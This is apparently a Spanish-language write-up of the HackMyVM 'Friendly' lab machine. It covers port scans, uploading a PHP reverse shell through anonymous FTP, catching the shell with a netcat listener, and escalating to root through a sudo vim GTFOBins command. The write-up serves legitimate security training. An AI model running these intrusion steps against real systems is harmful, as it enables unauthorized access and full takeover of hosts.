 ```yaml
---
layout: post
title:  "Friendly"
date:   2023-04-15 18:20:52 +0200
categories: hackmyvm
---
```

**Autor**: Rijaba \\
**Dificultad**: Fácil
![img](/assets/hmv/hmv_friendly/friendly_logo.png)

### Escaneo de puertos
```js
❯ nmap -p- -T5 -n -v 192.168.1.12

PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

### Escaneo de servicios
```txt
❯ nmap -sVC -v -p 21,80 192.168.1.12

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
```

### HTTP
Tenemos la página por defecto de apache.
```txt
❯ curl -s http://192.168.1.12 | html2text

[Debian Logo]  Apache2 Debian Default Page
It works!
This is the default welcome page used to test the correct operation of the
Apache2 server after installation on Debian systems. If you can read this page,
it means that the Apache HTTP server installed at this site is working
properly. You should replace this file (located at /var/www/html/index.html)
before continuing to operate your HTTP server.
If you are a normal user of this web site and don't know what this page is
about, this probably means that the site is currently unavailable due to
maintenance. If the problem persists, please contact the site's administrator.
Configuration Overview
```
### FTP
Me conecto al servidor FTP con el usuario anonymous y veo un archivo index.html se trata del archivo por defecto del servidor apache.
```txt
❯ ftp 192.168.1.12

Name (192.168.1.12:noname): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||31488|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 .
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete
```
Creo un archivo **``phpinfo.php``** y lo subo al servidor FTP porque que tengo permisos de lectura, escritura y ejecución.
```php
<?php
    phpinfo();
?>
```

Con Firefox abro el archivo **``phpinfo.php``** y veo que interpreta código php.

![img](/assets/hmv/hmv_friendly/phpinfo.png)

Me he descargado esta **[ shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz)** y la he configurado apuntando a mi dirección ip.


La subo al servidor FTP con el comando **``put``**.
```txt
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||47066|)
150 Opening BINARY mode data connection for php-reverse-shell.php
100% |****************************************|  3463       66.05 MiB/s    00:00 ETA
226 Transfer complete
3463 bytes sent in 00:00 (2.60 MiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||58099|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 .
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:18 phpinfo.php
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:21 php-reverse-shell.php
226 Transfer complete
```

Uso curl para entablarme la reverse-shell.
```txt
❯ curl -s http://192.168.1.12/php-reverse-shell.php
```
Obtengo la shell.

```txt
❯ nc -lvp 1234
listening on [any] 1234 ...
192.168.1.12: inverse host lookup failed: Unknown host
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.12] 47948
Linux friendly 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
 08:25:02 up 11 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Realizo el tratamiento de la tty.
```txt
script /dev/null -c bash
ctrl +z
stty raw -echo;fg
reset
xterm
export TERM=xterm SHELL=bash
stty -row 46 columns 188
```
### Privesc
Lanzo **``sudo -l``** para ver que permisos tengo con sudo.

```txt
www-data@friendly:/home/RiJaba1$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Me voy a gtfobins y busco vim.

![img](/assets/hmv/hmv_friendly/vim_gtfobins.png)

Uso el comando de gtfobins para obtener el root solo que la parte del comando donde pone ``/bin/sh`` lo he cambiado por ``/bin/bash``.
```txt
www-data@friendly:/home/RiJaba1$ sudo /usr/bin/vim -c ':!/bin/bash'
root@friendly:~# whoami
root
```

Al intentar leer la flag de root me encuentro con el siguiente mensaje.

```txt
root@friendly:~# cat root.txt 
Not yet! Find root.txt.
```
Uso ``find`` para encontrar el archivo root.txt.

```txt
root@friendly:~# find / -name root.txt 2>/dev/null
```

Y con esto ya tenémos resuelta la máquina friendly! Happy Hacking! :)



